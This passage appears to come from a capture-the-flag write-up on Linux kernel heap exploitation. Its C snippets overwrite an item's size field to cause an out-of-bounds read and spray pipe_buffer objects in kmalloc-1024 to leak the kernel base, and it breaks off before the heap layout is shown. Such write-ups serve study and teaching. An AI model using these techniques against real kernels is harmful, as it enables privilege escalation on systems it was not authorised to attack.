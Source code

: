 ## Exploitation
First of all, we create an item and update its size to leak a coming structure.
```c
memset(buf, 'A', BUF_SIZE);
new_item(buf, 0x100); // A

// change A.size
memset(buf, 0, BUF_SIZE);
memset(buf, 'A', 0x100);
*(unsigned long long *)(buf + 0x100) = 0x1337; // size (will be overwritten
*(unsigned long long *)(buf + 0x108) = NULL;  // next
edit_item(0, buf, 0x400+0x30); // new size
```
I have choosen to target `kmalloc-1024` (`0x100 + 0x10c = 0x20c = 524`) because
there were no allocation on this cache which makes my exploit more reliable.

As a target structure to leak, I have choosen a `struct pipe_buffer` (thanks to
[this](https://google.github.io/security-research/pocs/linux/cve-2021-22555/writeup.html#bypassing-kaslrsmep))
as it fits in `kmalloc-1024` and contains a pointer to a structure in the
`.data` segment, allowing us to leak the kernel base address.

```C
// spray with pipe_buffer
// https://github.com/google/security-research/blob/master/pocs/linux/cve-2021-22555/exploit.c
printf("[*] Spraying pipe_buffer objects...\n");
for (int i = 0; i < NUM_PIPEFDS; i++) {
    if (pipe(pipefd[i]) < 0) {
        err("pipe");
    }
    // Write something to populate pipe_buffer.
    if (write(pipefd[i][1], "pwn", 3) < 0) {
        err("pipe write");
    }
}
```

This gives us the following heap layout:
